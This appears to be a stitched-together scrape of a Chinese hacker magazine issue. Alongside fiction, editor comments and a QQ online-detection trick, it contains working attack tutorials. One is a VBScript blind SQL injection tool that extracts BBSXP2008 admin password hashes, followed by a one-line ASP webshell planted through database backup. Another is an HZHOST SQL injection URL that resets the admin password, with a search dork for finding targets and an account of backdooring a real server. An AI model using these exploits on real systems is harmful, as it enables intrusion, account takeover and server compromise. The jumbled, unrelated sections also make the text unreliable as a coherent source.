大家都知道，在 QQ 聊天窗口中发个不健康网站过去，在线的 QQ 就会出现提示：“该网站不安全”。于是，笔者自己实验，找到一个在线的好友，如图 1，发了个“www.yaosese.com”（以前的黄色网站，现在这个域名已经失效了）给对方，可以马上看到弹出一个警告信息，如图 2。

现在，找到一个下线的 QQ 进行测试，如图 3。由于对方不在线，所以没有类似的警告提示，如图 4。

这里再做推测，如果 QQ 好友隐身，那么也会和上线时一样，给出一个警告提示。这里笔者登录了两个号码，如图 5。其中一个号码是隐身在线的，现在给这个隐身在线的好友发送一个恶意站点的地址链接，可以看到发送方的 QQ 马上出来了警告提示，如图 6。

看来我们的猜想是正确的！这里便用到了 QQ 网址过滤程序中的一个过滤规则，那就是如果你的 QQ 好友在线（包括隐身在线），那么好友过滤规则就马上起作用，并且提示该网址为恶意网站。


XApache：

最近的 Linux/Unix 发行版出得让人目不暇接，真是你方唱罢我登场，春末夏初争斗艳。小编我也赶着潮流，装了 Ubuntu 9.04，在单位测着新内核玩。但心里还是琢磨着赶紧把《特仓苏 III》给发布了，让大家快点看到结局。另外，本期还有一篇以前只能在《小说月报》之类杂志上才能看到的文章，到底是什么样的内容呢？赶紧翻阅吧。

## 特仓苏 III

图/阿九大人

编者按：前两集有一个重要人物，就是我们的女主角——特仓苏。然而作者花费很多笔墨，在前两集中只是证明“给足”的正确性：男人应该拥有信念和正视机遇，却对特仓苏的描写甚少。这一集特仓苏终于不负众望正式出场，她会有什么表现呢？鉴于作者的第一集表现，这一集又会带来怎样的故事呢？

（接上期）经过几天的磨合，我发现部门的这个团队还是比较好带的，不是因为他们能力出色，而是他们做事不推诿，和以前的我一样，能不能做到姑且不说，但是起码会努力去干。我有那么点小感动，不过能做的也仅仅是根据他们的特长去分配工作而已。透过一些诡异的渠道，我依稀了解到特仓苏是一个高层领导的女儿，这让我更加惴惴不安起来，带了 5 个兵的 Leader，怎么看都不像和特仓苏一个阶层的人。

这两天我和小李在一起研究 ERP 慢的原因，说白了这根本就不是问题，用 Java 技术做的东西，能不慢么？再加上那个数据库比较臃肿，要能快得起来才有鬼了。当然，总公司内部对这个问题认识得并不是很深刻，因为说白了，服务器在本地，操作 ERP 就是透过一根 100M 的网线。办公厅和项目部乌泱泱地说这玩意慢，打开一个页面就得 30 秒，查询结果再得 2 分钟，提交数据又要 5 分钟，而且很多时候还是超时。

很明显，对于刚刚接手这个事情的我来说，不能伸手向上面要钱，要有效利用当前资源，我采取了个最近之有效的方法，当然小李是不太看好这个方法的，一切只有以实践来证明了。

接下来的三、四天，项目部打来投诉的电话少了许多，小李打电话过去一问，都说 ERP 速度快了很多。对于不懂技术的她来说，是惊异并且佩服的。其实我采用的方法很简单，一说大家都会，但是敢这么用的也不多，因为要照顾很多人的情绪。

周日的时候我又开了个小会，把最近大家的工作情况梳理了一下，同时提了一些我的看法：“很高兴这周大家的工作热情都很高，任务的大体完成状况不错。关于 ERP 方面的问题，也基本已经解决。其实从 ERP 的问题解决上，我发现作为技术人员的大家存在一些缺陷。嗯，小李做得很好，作为我们部门唯一的女性，后勤保障和沟通工作做得很到位。”

我拿着手中的报表说道：“变动策略其实很简单，就是限制同时访问的人数由最高 400 人变成最高 100 人，同时对各个部门进行时段访问限制。其实这么做之前，小李有过担心，这样一改，各个部门的大爷不能随心所欲地上网了。但是我们都知道，一座独木桥就那么宽，一个人过轻轻松松，而人一多，便谁也都过不去了。你们不敢提这个意见，不是不知道这么做有好处，而是把自己的位置摆得太低，还怕最后做得不好领导拿你们去顶缸。这么做，虽然本质上是一种优化组合，但表现出来的特征就是在一个时间段剥夺了大多数人的权益，来保障少部分人的高品质用户体验。可你们所畏惧的是，领导阶层对这种剥削他们特权的行为会反感，继而实际影响我们的薪水和职位变动。”

小兵们微微点了点头，尽管这幅度很浅，连他们自己都不知道。“我们是为公司创造效益的，保障服务器正常运行只是基础，如何提高效率，浪费减少后，根据所节约出来的东西，来计算我们的价值。至于这个数据是多少，需要在座的各位去计算，不是靠大约、差不多、左右等来形容的。用数据说话，我们的地位才能有所提高。”

月底的时候，因为很多人没有使用 VPN，而有的是登录了 VPN 却没有更改密码，导致对 500 多人进行了小额罚款，并在 OA 和宣传栏上通报批评。这次惩罚不仅仅是一部分，而是所有涉及的人。罚款金额不大，但是却对部门权威性和平衡性做出了肯定。

虽然这只是个小小的改变，不过 VPN 推行顺利的同时，全公司重新认识了我们部门，知道这个部门有人很黄很暴力，所以尽管部门的综合性质和行政类一样是服务为主，但确立了公信力之后，特别是因为解决 ERP 速度问题的效率明显，在总裁办的眼中，我的决断便有了威信，我相信后面的工作也会更好发展。

公司的事情按部就班计划慢慢地展开，我也时常能够看到特仓苏的身影，不过总也找不到合适的机会去说些什么。能说什么呢？问候你爹今年又赚了多少钱，家里又买了几辆车？这不是根本就不认识的人，可以随心所欲地“套磁”，作为公司的中层人员，时刻得注意体面。

所以说，特仓苏现在还离我太遥远，不过只要有这种坚定的态度，我相信一切不是没有希望，起码有平起平坐的机会。所以说态度，才是最重要的。

透过手指的香烟所萦绕的烟雾，我有些心烦气躁。看了看左腕的手表，那块低调的西铁城光动能计时月相表提示着，还有三分钟这场会议就要开始了，而对面的席位上却还空无一人。我不是第一次开这种谈判会议，但是超过 30 万的单子还是第二笔。当然这个合同数额并不大，但是相对于信息化采购来说，已经不少了。从口袋里拿出新买的夏普 9020C，总想打一个电话，但最终，还是忍住了。


哎，给了我们测试 QQ 好友是否在线，相信读者朋友以后也能够发现更多有趣的方法。另一方面，如果你的 QQ 好友不在线，那么就算你发再多的恶意站点，QQ 的网址过滤程序也不会启动，也就不会提示该站点为恶意站点了。但是，就是这样的恶意站点过滤规则……

## 黑小说

三个月，仅仅用了三个月，我靠着自己的技术能力，以及杀伐果断的判断，如飞一般地坐到了 MIS 部长的位置上。如今的社会很讲求实效，一切用业绩说话，我能够坐到这个位置让反对的人也无话可说。当然，我并不是很在意三分钟之后那个人能否准点到达。骨子里说，我是一个非常传统的人，我只是把这次会议当做一次正式切入的契机。凡事都有第一次，第一次自然是希望做到最好。

想起第一次脱稿而出，是那份 VPN 实施方案，关键的地方都会有点评，让这样一篇技术文章丝毫不缺乏可读性，即使不懂技术的领导也感到了内容的含金量。这个社会就是一个傻子向别人炫耀的氛围，而略微带着点谦虚性质的炫耀更容易获得大家的认同。最关键的是，方案竟然也实施成功了。

我依然在等，很明显对方也是准时的人，仅仅过了一会儿，门口传来了玻璃门被推开的细微轻响，和一把轻悦的女声：“大家好，我们……来晚了。”声音有些迟疑，但很快就调整过来了。我回头，看见特仓苏和几个同样精壮貌美的女人走了进来。我也带着自己的小弟们站起来，对她们表示欢迎。

在一番客套之后，我开始陈述公司对这次 ERP 升级的诉求，并提出几点具体实施上的要求，我控制着自己的语速，以使得能够集中大家的注意力。特仓苏作为云天科技的创始人之一，很认真地看着我，并注意着说话的内容。

两方代表各自摊牌，开始分析、妥协、争取又或者让步。我控制着自己，以表现得不那么具有攻击性。我很清楚，作为公司某个董事的女儿，特仓苏的这笔生意是无论如何都会谈妥的，现在只是在例行公事。但令人奇怪的是，特仓苏并不是完全借助家族的实力走到这一步，机会是她父亲给的，但她的努力，众人也都明明白白地看在眼里。多次来到公司与工程人员交流，熟悉每一个业务流程，包括人事招聘、合同审批（当然仅仅是业务流程，内容是无论如何也不会给她看到的），有时候谈论的时间长了，也仅仅是去员工食堂简单地吃一餐。这种毫无架子的行为，无疑让众多草根站到了她的支持面。

我从最初进入公司就对特仓苏产生了好感，尽管当时并不知道她不是公司的同仁，但这并不能阻挡我的视线，我在寻找一个能够和特仓苏正视的机会。从这个角度来说，我是很认真的，而三个月后的今天，我也确实做到了。

会议谈论得很融洽，双方就资金和需求上达成了一致，接下来是一个小型的冷餐会。我用公司派的车载着特仓苏出发，一路上说着公司的趣事，按照自己的脾性，告诉她一些不那么低俗又比较有趣的故事。看得出特仓苏很开心，这个有着细小嫩白手指的女人，还有她的笑容，让我有些陶醉了。我想告诉她心中的爱慕，却怕仍然不是时候，所以整个冷餐会上，我表现得很低调。

宴后，我相约特仓苏，礼貌地问是否有下次机会一起吃饭。特仓苏并没有礼貌地回答“没有时间”，或者“看情况”，或者“下次合作的时候”，而是简单的两个字：“好呀”。

我没有想到自己仅仅是随口邀约，就能够获得一次近距离的机会。我原以为对于工作上的合作伙伴，特仓苏会保持淡淡的距离，从她对自己的那款夏普 9020C 仅仅一瞥中，我以为这个女人会是淡定而从容的，起码不是现在这样表现得有些热情。我觉得亲近特仓苏会要更花时间一点，然而事实我猜错了，机会就是这么巧妙。

这种惊人的判断错误持续保持到两个人坐在外滩旁的那家餐厅里，那家叫做玉玺和的餐厅。特仓苏带着狡黠的微笑看着有些局促的我，“你请我……是什么意思呀？”

“嗯，你是我们乙方，加强沟通是我的工作。”我眼神有些慌乱，但说话的时候却是心非。

“但是我总觉得最近有人偷窥我……”特仓苏幽幽说道，嘴角却带着笑。

“那肯定不是我！”我镇定得很，“我这人特正派。”

扑哧，特仓苏白了我一眼，“我又没说是你。可是啊，为什么我在你们公司吃饭的时候，周围总可以看到你的身影呢？一次、两次也就算了，但是这几个月基本都是如此。”

“巧合，完全就是巧合！”我现在的心情有些复杂。我想接触特仓苏，但绝不是以一个偷窥狂的身份。“公司食堂本来就是一个人多的地方，我们这些打工仔没有在外面吃的习惯。”

“怎么？可我不见得是谁总吃饭，但总可以遇到你。”特仓苏拿起一只蟹，浅浅地尝起来。“巧合未免也太多了吧？”

我有些坐立不安，在考虑是不是应该承认这件事情。承认之后又有什么后果，我并不清楚。然而仅仅是考虑的这么几秒钟，我的心就放下了，因为特仓苏接着说道：“逗你玩的，一个大男人不要这么纯情吧？”

我的心放下来，却又感觉到一丝失落。对面的女孩就这么看着我，面带微笑，不时低下头吃那只蟹，我希望自己就是那只蟹，被她吃掉也好过这样有话说不出。我很尴尬。

特仓苏自顾自地说着：“其实，你的表现一直很特殊，知道么？”她抬起头：“一个眼神，投出去看到的是整个世界，而世界，未尝不是在注视着你。”

“我的直觉一向很准，你的眼神不像商人那么功利，也没有别的男人那么好色。当然，还是有那么一点点啦，不过却不让人讨厌。”

“我知道你经常望着我，尽管我不知道原因，或许你以为我没有发现。不过没有发现么……那是绝对不可能的。你知不知道你被拆穿秘密的时候表情很可爱？”特仓苏侧着头看着我。我感觉自己的面部表情一定有问题，脸红？尴尬？害羞？不知道，因为我不会随时带着镜子修正自己的表情。

“你知道么？你们公司的人很少有对我表示爱慕的，他们都认为我沾了父亲的光。”她睁大眼睛对我说道：“当然，这有一点关系，但我自己的能力我还是清楚的。当然更多的人，看我的时候仿佛是要把衣服看穿，去看里面的东西，这样的男人我实在无法接受。”

我心说，最开始我和他们没有什么分别，也是想着衣服里面的东西。但我知道这句不能说出来。

“你的眼神不一样，很温暖，像是保护幼鸟的海鸥，所以我才会答应你的邀请，也想听你的心里话。”

我在考虑，心里话能说么？我想说特仓苏你就从了我吧，可嘴里说的却是：“认识你……我很荣幸。”

特仓苏没有继续说什么，两个人就这样安安静静地吃完饭，出门，坐上车，走人。

特仓苏嘴巴撅着，看着我有些恼怒，连我自己都觉得自己很傻，看起来今天真是搞砸了一个难得的机会。

“其实你的那台夏普手机也还好啦，不过诺基亚更适合男人一点。希望下次约会，你能穿得更随意一些，”特仓苏下车时，皱着鼻子，对我说道。我有些意外，“下次约会是……什么时候？”

“这两年我从来没有单独约过别人，也没有别人在单独约过我，所以，什么时候你来定吧。”特仓苏说完之后，向前慢慢走去，我突然觉得哆嗦起来。

“傻瓜！你还等什么呢？！”已经走了很远，特仓苏突然大声喊着。

我心里想的，竟然让一个女孩子这样说了出来。我没有再犹豫，而是自信地伸开双手，验证了特仓苏猜想的正确性。女孩子嘛，总不能老让她占据主导不是？

（全文完）

## 下在墙头上的鸡蛋

◎ 李德芹

俺和秋成本来是一对恩爱夫妻，但是后来，俺忽然发现了秋成在网恋，俺在电脑上偷看了他和一个女人的聊天记录。他的网名叫做“梧桐树”，而那个女人的网名叫“飞鸟”，飞鸟说，他要的那个宝贝如果被她寻到了，她会一翅膀飞到梧桐树上，在梧桐树上筑一个爱巢。是什么宝贝能使秋成这棵梧桐树有这么大的诱惑力呢？

俺本来想着劝说一下秋成，不要跟那个飞鸟胡来。那个飞鸟今天“飞”到你的怀抱里，明天还不知再向谁的怀抱里“飞”去了呢？然而，俺不知道为什么，就是张不开口！

俺是个死要面子的女人，在一天的中午，终于忍不住把一份离婚协议书递给了他，他被震惊了：“你这是做什么？俺哪里对不起你啊？”

俺冷笑了一声道：“这不正是你希望的吗？俺干脆成全你好了！”其实，俺说这话时，心里虚得很呢！

只听他恼怒地说：“别胡闹了，这字俺不能签！”说罢这话，便把那离婚协议书撕了，卷成了一个纸团，向俺脚下一扔，就气冲冲地走出了家门儿，到县城打工去了。应该说，俺是对得起秋成的！俺养的那只乌鸡，天天飞到墙头上刨食吃，俗话说，猪向前拱，鸡向后刨。那只乌鸡在墙头上，用爪子刨了一个个泥坑，下蛋时，就蹲在了那泥坑里。它几乎每天下一个蛋，而且大都是双黄蛋。有道是，宁吃飞禽一口，不吃禽蛋一筐。母鸡把蛋下在墙头上，就像飞禽蛋一样，是又鲜又香，很多贵的时候，卖好大价钱。但是，俺却不舍得卖一个，更舍不得吃一个，因为秋成有个咳嗽的病儿，俺每天用香油煎两个乌鸡蛋，给他吃了“压咳嗽”。后来俺忽然发现，那乌鸡竟然不怎么下蛋了，有很多天，一个乌鸡蛋也捡不着。

有一天，俺就嘟嘟着问秋成：“那只乌鸡怎么不下蛋了呀？”秋成嘟囔着说：“你老指望它在墙头上刨食吃是不行的，也要喂它一些蛤蜊粉皮粉末和小鱼小虾啥的。”

一天傍晚，俺发现秋成端着一筐筐乌鸡蛋，走进了俺对门邻居三丫的家里。俺霎时明白了，那只乌鸡不是不下蛋，而是秋成把近些日子乌鸡下在墙头上的鸡蛋，悄悄给了三丫呀！无怪乎平日里见了秋成那个亲热劲啊，一口一个大哥地喊，而秋成也是一口一个三丫妹地叫哩，就差没抱在一块“啃”了！俺又想，莫非那个“飞鸟”就是三丫？可是，三丫是一个又靓丽又年轻的大姑娘，怎么会看得上秋成这样一个打工仔呢？俺一头雾水了。

俺冷不丁想到这里，心口又剧烈地疼痛起来，便双手捂着心口窝，“哎呀哎呀”地呻吟着。就在这时，三丫手中提着一个鼓鼓囊囊的塑料袋，兴冲冲地闯进了俺家门儿。而三丫前脚刚走进了院子，秋成后脚也惶急跟了进来，两人真是形影不离呀！秋成和三丫一见俺跌坐在地上，龇牙咧嘴的痛苦样子，双手支撑着地，怎么也爬不起来时，便一同跑过来搀扶俺。

俺却把他俩的手一推，怒声道：“俺就是死了，也用不着你们来给俺收尸！”

秋成气呼呼地质问道：“你这些日子是怎么了？俺为你的心脏病都愁死了，心里都起火冒烟的，你还要给俺火上浇油啊！”

俺从鼻子里哼了一声，道：“你心里起火了怕什么呀？你这个飞鸟不是来了吗？几翅子就把你心里的火儿扑拉灭了嘛。”秋成扑哧地一声笑了：“你真是让俺哭笑不得啊！”接着，他就缓和下语气来，向俺解释说，他为了治好俺那心绞痛的病儿，已经借了工友两万多元钱了！一边老中医还特地说，要是他能寻到一个牛黄，治疗俺心脏病的话，就会节省一大笔医疗费！于是，他就在电脑上恳求网友，帮着他寻求那个宝贝——牛黄。

后来，他那个叫做飞鸟的网友对他说，她如果寻到那个宝贝献给他，她就要在梧桐树上筑个爱巢，就永远栖息在梧桐树那个爱巢里。其实，那个飞鸟是在跟他开玩笑呢！

秋成说到这里，便问俺说：“你知道那个飞鸟是谁吗？就是三丫啊！”

俺惊讶地睁大了眼睛，望着三丫：“俺寻思着，你可能就是那个飞鸟啊！”

这时，三丫把那个塑料袋递给了秋成，说道：“大哥，俺这是跑了20多个乡村，去了五六次牛市场，才给俺嫂子弄来了这个宝贝啊！”停了停，她又从衣服兜里掏出一叠钱来，塞在了秋成的手里：“大哥，这是俺给你卖乌鸡蛋的1200元钱，你收好了！”俺被震惊了：“怎么？原来是秋成把那墙头上的乌鸡蛋……”

三丫还没等着俺把话说完，就重重点了点头说：“俺秋成大哥为了凑够给你治心脏病的医药费，就把墙头上那些乌鸡蛋提前偷着捡了，又交给俺去卖钱了！可是，他恐怕你不同意卖，还是要把那些乌鸡蛋留给他煎了压咳嗽，就叮嘱俺，一定不让俺告诉你啊！”

俺听了三丫这一番话，是又羞又悔，猛地从地上站起来，羞愧地用拳头捶着秋成的胸膛：“你为什么不早告诉俺呀！”

秋成说：“你只顾了俺电脑上的聊天记录那么一两句，就起了这么大的疑心，你也不问问俺是在干什么？你呀，总是愿意把不明白的事情，憋在肚子里生闷气！你那心绞痛啊，硬是给憋出来的！”

顿时，俺的热泪便滂沱而下了。

> **编辑点评：**
>
> 这是在“黑手”上很少能见到的小说类型，从误会到释怀，最后获得皆大欢喜的结局。人啊，一定要把事情了解清楚再做决定，不然有了误会，伤的不是别人，伤的是自己。希望“黑手”的读者们在平时的工作或生活中，和自己的亲人和朋友多聊聊，不要只顾玩电脑哦。

> **编辑点评：**
>
> 三期连载，终于等到了《特色芬》的大结局。主人公从失业到最后爱情、事业双丰收，好像一个成人童话，但却饱含艰辛的温情在里面。不知道看完最后一集，大家的感觉如何呢？如果你对《特色芬》或《婚头台》系列小说有任何意见或想法，都非常欢迎你把 mail 发送到 verdureorange@yahoo.com.cn。

## 新闻栏目

北京的冬天终于过去了，对于我这样从南方过来的人来说，北京的冬天实在是太漫长了。温度低不说，就天天刮呼呼作响的北风，足以让我有了整天闷在家里的借口。前不久突然发现，路边干枯萧条的树枝上冒出绿色的叶子，春天悄悄地来到了。春天真好，风和日丽，适合抓紧时间学习技术了，在疯狂的夏日到来前，我们必须更进一步，上一个台阶。

## 《未被引起重视的 BBSXP2008 注入漏洞》续谈

图 闪飞

- 从本文你可以学到：
- 1. Access 下的注射思路
- 2. 漏洞利用工具的编写

### 一、前言

前几天买了本 08 下半年的手册合订本，其中在《未被引起重视的 BBSXP2008 注入漏洞》一文中作者提到由于不能使用逗号，导致 Mid(string, start[, length]) 函数无法使用，于是认为在 Access 下无法注入。

我们先来看漏洞代码，相关信息如下：

```vb
if CookieUserName=empty then error(" 您还未<a href=\"javascript:BBSXP_Modal.Open('Login.asp',380,170);\">登录</a> 论坛") ' 保存 cookie 登录即可
ThreadID=Request("ThreadID") ' 没有经验数检查过滤便赋值给 ThreadID
If Not IsNumeric(ThreadID) then ' 如果 ThreadID 的值不是数字
    ThreadIDArray=Split(ThreadID, ".") ' 判断数组，避免 13 行出错
    if IsArray(ThreadIDArray) then
        for i=0 to Ubound(ThreadIDArray)
            if Execute(" Select ThreadID from ["&TablePrefix&"Threads] where ThreadID='"&ThreadIDArray(i)&"'").eof then error("<li>系统不存在该贴子的资料！") ' 注入发生
        next
        ThreadIDSql=int(ThreadIDArray(0))
    else
        error(" 参数错误。")
    end if
Else
    ThreadIDSql=int(ThreadID)
End If
ForumID=Execute(" Select ForumID From ["&TablePrefix&"Threads] where ThreadID='"&ThreadIDSql&"'")(0)
%>
<!-- #include file="Utility/ForumPermissions.asp" -->
```

其实不用逗号也可以实现注入，首先大家要明白 Access 是如何比较两个字符串的。比如比较“abb123”和“ABc123”这两个字符串的大小，从两个字符串的第一个字符开始比较，由于 Access 比较字符串是不区分大小写的，两个字符串的第一个字符相等。接着比较下一个，直到比较第三个字符时，因为 c 的 asc 码比 b 大，这时就停止比较，认为第二个字符串比第一个大。如果是比较“abc1234”和“abc123”，当第一个字符串比较到最后一个字符时，第二个字符串也比较到最后一个字符，第一个字符串还有要比较的字符，就认为第一个字符串比第二个大。

知道了原理我们就可以用这种方法来猜解密码。32 位 md5 字符集中单个字符从小到大的排列顺序为“0123456789ABCDEF”，比如我们要猜的 md5 密码 >= '3' 成立，但 < '4' 错误，就可以知道密码的第一位是 3；如果密码 >= '3A' 成立，< '3B' 错误，则密码的第二位就是 A；如果密码 >= '3A5' 成立，< '3A6' 错误，则密码的第三位就是 5，以此类推，很容易猜出密码。

### 二、编写程序

显然用注入工具猜解不出来，我模仿小榕的 wed 编写了个程序，这里贴出主要代码：

```vb
strCookie = "你的 Cookie"
...
...
MD5Charset = "0123456789ABCDEFJ"
...
...
strInject = strHoleUrl & " And 0<(Select Count(*) From BBSXP_Users Where UserName='" & attackUser & "' And Len(UserPassword)=40)"
strInject = URLEncoding(strInject)
If IsSuccess(strInject) Then
    m = 40
Else
    m = 32
End If
For n=1 To m
    For i=1 To 17
        strInject = strHoleUrl & " And 0<(Select Count(*) From BBSXP_Users Where UserName='" & attackUser & "' And UserPassword>='" & strResult & Mid(MD5Charset, i, 1) & "')"
        strInject = URLEncoding(strInject)
        If Not IsSuccess(strInject) Then
            strResult = strResult & Mid(MD5Charset, i-1, 1)
            Exit For
        End If
        If m = 40 Then
            strPrint = chr(13) & "Password(SHA1): " & strResult & Mid(MD5Charset, i, 1)
        Else
            strPrint = chr(13) & "Password(MD5): " & strResult & Mid(MD5Charset, i, 1)
        End If
        WScript.StdOut.Write strPrint
    Next
Next
...
...
Function IsSuccess(PostUrl)
    strData = PostData(PostUrl)
    'WScript.Echo strData
    if InStr(strData, "权限") > 0 then
        IsSuccess = True
    Else
        IsSuccess = False
    End If
    'WScript.Sleep 500 ' 让系统休息一下
End Function
```

这里说明两点：

第一，测试有漏洞的网站时，先注册个账户登录后，在地址栏输入：`javascript:document.cookie=window.prompt("Linx Edit cookie:",document.cookie);void(0);`，复制 cookie 到程序中的 `strCookie = "你的 Cookie"`。

第二，大家可能会发现 `MD5Charset = "0123456789ABCDEFJ"` 这个 md5 字符集中多出了一个 J，这是因为 md5 字符集中最大的字符是 F，如果密码中有一个字符为 F，要是不定义 J 的话程序就无法再猜解下去。

程序的使用方法为：`Cscript bbsxp2008.vbs 要检测的网站 要检测的账号`。

### 三、实战

由于是很早以前的漏洞了，大部分网站都打上了补丁，随便找了一个，然后注册个账户登录，如图 1。发现网站存在漏洞，如图 2。

在首页点击统计 -> 成员列表，可以看到 admin 是管理员。在地址栏输入 `javascript:document.cookie=window.prompt("Linx Edit cookie:",document.cookie);void(0);`，复制出 Cookie 到程序中的 `strCookie = "你的Cookie"`，然后打开命令提示符输入：`Cscript bbsxp2008.vbs http://xxxx.cn admin`，如图 3。

在 cmd5.com 上破解出密码为 258977，用这个密码登录后点击“管理”，再次输入密码登录后台成功。在后台基本设置 -> 上传设置 -> 附件保存模式选择数据库，然后在前台发帖上传一个内容为 `<%=execute request("value")%>` 的 txt 文件，在后台 ACCESS 数据库 -> 备份数据库处，设置备份路径为 `database/test.asp`，如图 4，出现熟悉的画面，如图 5。

### 四、尾语

bbsxp 对用户密码提供了两种加密方式：MD5（32 位）和 SHA1（40 位），我编的程序都可以破解出来。http://www.md5sha1.com 打不开了，我在网上也没找到提供 SHA1 在线解密的网站，只找到了“MD5SHA 高级解密器”这个软件，我不喜欢暴力破解，也就没对这个软件研究下去。我还想对原作者说一下，挖掘漏洞不一定终见曙光，但维护一定要开阔。

（作者编写的小工具 bbsxp2008.vbs 已经收录在光盘中）

> 编辑点评：很好的一篇文章，其中非常快捷地完成了我们以前刊登的文章中说到的“无法完成”的任务，其思路非常清晰。另外，在分析完原理以后，编写辅助工具完成猜解，也是一个值得借鉴的模式。

## 黑吃黑——利用 HZHOST 最新漏洞渗透黑客红人馆

圈圈穆斯林

- 从本文可以学到：
- 1. HZHOST 系统漏洞分析
- 2. 漏洞的利用实践

相信了解虚拟主机的朋友对 HZHOST 域名虚拟主机管理系统都非常了解，这是一套使用人数众多的功能强大的域名主机管理平台。因为其简单易用，比较容易上手，所以目前国内大多数的站长朋友都使用它来对自己的虚拟主机产品进行管理。

人怕出名猪怕壮，HZHOST 的名字打响了，自然会有各种各样的人前去关注，这其中就不乏那些技术高超的“黑客”朋友。话说前段时间，HZHOST 就频频出现漏洞，许多搞 IDC 的朋友被害得叫苦不迭，不过还好官方行动迅速，马上修补了相关的漏洞，这才暂时平定了风波。

某日本人甚感无聊，游荡于各大黑客站点，偶然在一论坛看到 HZHOST 又爆新洞，打开帖子一看，果然如此，心中窃喜，看来又能美美地捞上一票，这里我简单给大家分析一下。

首先找个存在漏洞的文件 channeldmectr.asp，如图 1，和已经打上补丁的 channeldmectr.asp 文件进行对比，如图 2，这是分别用 Dreamweaver 打开所看到的代码。

经过对比我们可以看到，已经打上补丁的 channeldmectr.asp 文件在原文件内容的基础上，从第 21 行到 40 行添加了以下代码：

```vb
Function SafeRequest(ParaName)
    Dim ParaValue
    ParaValue=Request(ParaName)
    if IsNumeric(ParaValue) then
        SafeRequest=ParaValue
        exit Function
    else
        ParaValuetemp=lcase(ParaValue)
        tempvalue="select|insert|delete|union|join|script|applet|object'|drop|update|truncate|create|xp_cmdshell|exec|alter|cast|rename|modify"
        temps=split(tempvalue,"|")
        for mycount=0 to ubound(temps)
            if instr(ParaValuetemp,temps(mycount)) > 0 and lcase(ParaName)<>"module" then
                call errorpage(-2,"您提交的内容包含了字符["&temps(mycount)&"]，请去除后重新提交或联系我们...")
                response.end
            end if
        next
        SafeRequest=ParaValue
    end if
End Function
```

代码的大概意思是对 `select|insert|delete|union|join|script|applet|object'|drop|update|truncate|create|xp_cmdshell|exec|alter|cast|rename|modify` 这些函数进行过滤，禁止用户提交包含这些函数的语句。

说到这里相信大家已经可以推理出漏洞是如何产生的了吧？不错，这次漏洞的产生和前几次大同小异，依然是由于原 channeldmectr.asp 文件没有对用户提交的参数进行有效的过滤，导致可以直接执行经过黑客精心构造的含有危险信息的 SQL 语句，危害甚大。

明白了大概意思，接下来的工作就是找个站好好练练手了。这里作者已经给出了批量查找使用 HZHOST 平台的网站的特征，这样就方便多了，直接打开 Google，搜索 `inurl:pdtshw/htshw`，可以找到很多相关网站，如图 3。

随便翻了几页，确定了目标，决定对 http://www.xxx.com/ 进行渗透测试。首先旁注了一下，发现上面的站点不是太多，忽然看到了一个很敏感的字眼“Hack”，啊啊，原来服务器上还放了个黑客站，如图 4。

正好趁着这个机会来个黑吃黑！打开这个黑客站，发现是个论坛，叫什么黑客红人馆，名字挺不错的，就是不晓得安全做得怎么样。

废话少说，操刀准备干活，首先打开目标站，注册一个会员，这个步骤相信智力正常的朋友都能完成，所以一笔带过。注册完成后登录前台，发现这个 HZHOST 还真是挺不错，功能非常多，界面也挺漂亮，不过今天咱们可不是来欣赏网站的，所以要抓紧办正事。

## 新闻练练看


图5 错误提示


图6 后台


图7 FTP账号


图8 获取 webshell

的密码为我们指定的数值。

由于是做测试，所以我就来个简单点的，把管理员的密码修改成 123456。这里我们要注意，在执行语句之前，一定要先把密码进行 32 位的 MD5 加密，然后再进行提交。

```sql
/incs/channeldmectr.asp?domainname=1');UPDATE [memlist] SET u_pss='e10adc3949ba59abbe56e057f20f883e' WHERE u_nme='admin'--
```

这就是构造好的 SQL 语句。复制以上语句，粘贴到目标站 URL 地址后面，访问后出现错误提示，如图5。

不管它，我们直接登录后台试试。在 URL 地址后面加上 Master 即为 HZHOST 默认的后台，很庆幸，这个站的后台地址没有修改，看来管理员的安全意识真是不太到位。接下来我们要做的就是用修改后的管理员账号登录后台，成功进入，如图6。

从图6中看得出来，这还真是台新服务器，一共才放了 9 个站在上面，这也给我们的测试工作减少了很多麻烦，很简单地随便操作几下就找到了跟黑客红人馆相关的信息。这时我们初步的目的已经基本达到。此站的 FTP 账号密码等信息终于泄露，如图7。

接下来要进行的，就是连接 FTP，上传我们的后门。先是传了个 ASP 的后门上去，发现不能打开，以为被杀了，于是刷新了一下 FTP，发现马儿健在。看来应该是空间不支持 ASP 的脚本，后来换个 PHP 的后门上传上去，访问后熟悉又可爱的界面终于出现在我的面前，如图8。

俗话说：不想当将军的士兵不是好士兵，虽然到了这一步，我们已经可以为所欲为地修改他的首页，甚至去挂马等等，但是我们的目的是获取他的最高权限，杀进服务器！

首先，导出 DLL 执行命令进服务器的方法是不用想了，HZHOST 默认开通的 MYSQL 数据库都不是 root 权限。接下来就是 Serv-U 提权，服务器上的确装了 Serv-U，不过连上去才发现其实用的是 MSFTP，即系统自带的 FTP。本人不才，不能得悉 MSFTP 有什么可以利用的办法。

此路不通，再换其它方法。看了下服务器，是 WIN2003 的，可以试试 Churrasco.exe 提权。不过事实证明这个方法也被堵死了，因为服务器并不支持 .Net，根据本人了解的信息，要服务器支持 .Net 才可以利用这个本地溢出。

最后一招，就是读取注册表，获取 HZHOST 默认存放 MYSQL 和 MSSQL 信息的键值。偏偏在这个时候，我的 RP 急剧下滑，一扫也没能奏效，再次落败。至此，我已经没有信心再继续下去，所以还是乖乖地做个普通的土兵吧……

此次入侵过程非常简单，仅仅是利用一句短小的 SQL 语句，甚至没有使用任何工具就达成了我们最终的入侵目的，所以大家一定不要把入侵检测当成是一件多么复杂、多么难的事情，只要多学习，多积累，一定能达到你所希望的结果。最后，附上独家提供的 HZHOST 漏洞补丁，相信对那些使用盗版 HZHOST 的朋友有所帮助。

> （文章中所涉及的漏洞补丁已经收录在光盘中）

**编辑点评：** 利用一个刚刚爆出的漏洞，很轻松地拿下一个 HZHOST 系统，文章比较简单，其中加了一些对漏洞成因的分析。我觉得这是必要的，不论漏洞大小，养成分析的习惯后，久而久之，就可以厚积薄发了。

## 新型万能登录密码

图 oldjun

- 从本文可以学到：
  1. 对经典万能密码原理分析
  2. 对改进后的验证登录过程分析和利用

本文毫无技术含量，只是提供一个思路，思路来源于前不久爆出的那个 eWebEditor 2.16 版本的上传漏洞。对于过滤了单引号或者做了 post 防注入的站点，此方法也无能为力了，但对于很多对登录端没做处理的网站，此方法值得一试，尤其是你已经知道源码了却不能执行命令（ACCESS 数据库），或者对方能报错（MYSQL 数据库）。

```asp
username = request.form("username")
password = request.form("password")
set rs=server.createobject("adodb.recordset")
